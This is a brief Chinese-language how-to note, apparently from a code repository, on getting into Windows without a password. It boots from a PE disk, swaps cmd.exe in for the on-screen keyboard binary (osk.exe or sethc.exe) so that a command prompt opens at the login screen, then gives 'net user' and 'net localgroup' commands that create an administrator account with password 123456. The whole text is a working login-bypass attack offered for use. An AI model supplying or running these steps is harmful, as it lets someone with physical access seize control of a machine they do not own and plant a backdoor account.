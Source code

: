 # 无密码进入Windows系统
很老的一个方案,但依然有效.
1. 用PE启动电脑
2. 将屏幕键盘`C:\Windows\System32\osk.exe`(粘滞键`sethc.exe`等亦可)文件改为`C:\Windows\System32\osk.exe.bak`
3. 将`C:\Windows\System32\cmd.exe`复制为`C:\Windows\System32\osk.exe`
4. 退出PE,启动电脑,登录界面选择屏幕键盘,此时会弹出命令行窗口
5. 执行,新建test用户,密码为123456,加入管理员组
    ```bat
    net user test 123456 /add
    net localgroup administrators test /add
    ```